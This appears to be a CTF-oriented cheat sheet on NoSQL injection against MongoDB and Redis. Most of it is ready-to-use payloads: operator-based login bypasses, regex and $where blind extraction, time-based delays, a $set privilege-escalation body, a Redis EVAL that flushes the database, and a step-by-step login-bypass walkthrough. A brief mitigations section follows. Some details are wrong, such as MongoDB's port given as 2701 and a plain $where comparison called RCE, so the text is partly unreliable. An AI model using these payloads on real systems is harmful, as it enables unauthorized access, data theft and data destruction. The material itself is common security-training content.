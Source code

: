#### **1. Core Concepts**
- **What is NoSQLi?**  
  Injection attacks targeting NoSQL databases (e.g., MongoDB, CouchDB, Redis). Unlike SQLi, NoSQLi exploits **query syntax**, **operators**, or **API endpoints** instead of SQL syntax.
- **Why Vulnerable?**  
  User input is unsafely concatenated into NoSQL queries (e.g., JSON, BSON, or REST calls).

---

#### **2. Common NoSQL Databases & Syntax**
| Database   | Query Syntax       | Key Operators                  |
|------------|--------------------|--------------------------------|
| **MongoDB**| JSON/BSON          | `$ne`, `$gt`, `$in`, `$regex`, `$where` |
| **CouchDB**| MapReduce/Views    | JavaScript functions           |
| **Redis**  | Commands           | `EVAL` (Lua scripting)         |
| **Cassandra**| CQL (SQL-like)   | `ALLOW FILTERING`, `TOKEN`     |

---

#### **3. Attack Vectors**
##### **A. Authentication Bypass**
- **Payloads**:
  - `{"username": {"$ne": null}, "password": {"$ne": null}}`  
    *(Returns first user where username/password ≠ null)*
  - `{"username": "admin", "password": {"$regex": ".*"}}`  
    *(Bypasses password check with regex wildcard)*
- **CTF Tip**: Test login forms with JSON payloads like `{"$gt": ""}`.

##### **B. Data Extraction**
- **Boolean-Based Blind**:
  - Extract data via true/false conditions:  
    `{"$where": "this.username[0] == 'a'"}`  
    *(Check if username starts with 'a')*
- **Regex-Based**:
  - Extract characters one-by-one:  
    `{"$regex": "^admi"}` → `{"$regex": "^admin"}`  
    *(Brute-force field values)*
- **Operator Abuse**:
  - Use `$in` to leak data:  
    `{"username": {"$in": ["admin", "guest"]}}`

##### **C. Remote Code Execution (RCE)**
- **MongoDB `$where`**:
  - Execute JavaScript:  
    `{"$where": "function() { return (this.password == 'secret') }"}`  
    *(RCE if `server-side JavaScript` is enabled)*
- **Redis `EVAL`**:
  - Inject Lua commands:  
    `EVAL "return redis.call('FLUSHDB')" 0`  
    *(Wipes database if unprotected)*

##### **D. NoSQLi in HTTP APIs**
- **REST/GraphQL Endpoints**:
  - Manipulate query parameters:  
    `?filter={"username":"admin"}&fields={"password":1}`  
    *(Exposes password field)*
- **HTTP Method Abuse**:
  - Use `PUT`/`POST` with malicious JSON:  
    `{"$set": {"role": "admin"}}` *(Privilege escalation)*

---

#### **4. Detection Techniques**
- **Error Messages**:  
  Look for MongoDB errors (e.g., `BSON representation too large`, `$where not allowed`).
- **Behavioral Analysis**:
  - Send `{"$ne": 1}` → If response differs, likely vulnerable.
  - Test `{"$gt": 0}` vs. `{"$gt": -1}` to infer data types.
- **Blind Injection**:
  - Time-based delays:  
    `{"$where": "sleep(10000)"}` *(MongoDB)*  
    `EVAL "local i=0 while i<10000 do i=i+1 end" 0` *(Redis)*

---

#### **5. Mitigations (For Defense)**
- **Input Validation**:  
  Reject input containing NoSQL operators (e.g., `$`, `{`, `}`).
- **Parameterized Queries**:  
  Use library-specific safe methods (e.g., MongoDB’s `BSON` serialization).
- **Disable Risky Features**:  
  Turn off `$where` (MongoDB), `EVAL` (Redis), or server-side JavaScript.
- **Least Privilege**:  
  Restrict database user permissions (e.g., no `eval` or `admin` roles).

---

#### **6. CTF-Specific Tips**
- **Default Credentials**:  
  Try `admin:admin` for MongoDB/CouchDB web interfaces (port 2701/5984).
- **Common Payloads**:
  ```json
  {"$gt": ""}          // Bypass empty checks
  {"$in": []}          // Leak array values
  {"$regex": "^a.*"}   // Regex-based extraction
  {"$where": "1==1"}   // Always true
  ```
- **Tools**:
  - **NoSQLMap**: Automates NoSQLi attacks.
  - **Burp Suite**: Intruder for fuzzing JSON parameters.
  - **Curl**: Craft custom requests (e.g., `curl -X POST --data '{"$ne":1}'`).
- **Blind Exploitation**:
  - Use `if-else` in `$where` to leak flags:  
    `{"$where": "if (this.flag[0]=='c') { sleep(10000) }"}`

---

#### **7. Cheat Sheet: MongoDB Operators**
| Operator | Function              | Example Payload                  |
| -------- | --------------------- | -------------------------------- |
| `$ne`    | Not equal             | `{"username": {"$ne": "admin"}}` |
| `$gt`    | Greater than          | `{"id": {"$gt": 1000}}`          |
| `$regex` | Regex match           | `{"pass": {"$regex": "^A"}}`     |
| `$in`    | In array              | `{"role": {"$in": ["admin"]}}`   |
| `$where` | JavaScript expression | `{"$where": "this.pass=='x'"}`   |

---

#### **8. Real-World CTF Example**
**Scenario**: Login form with MongoDB backend.  
**Exploit**:  
1. Send `username=admin&password={"$ne": ""}`.  
2. Response: `Welcome admin!` → Auth bypassed.  
3. Extract flag via regex:  
   `username=admin&password={"$regex": "^CTF{"}` → Success if flag starts with `CTF{`.

---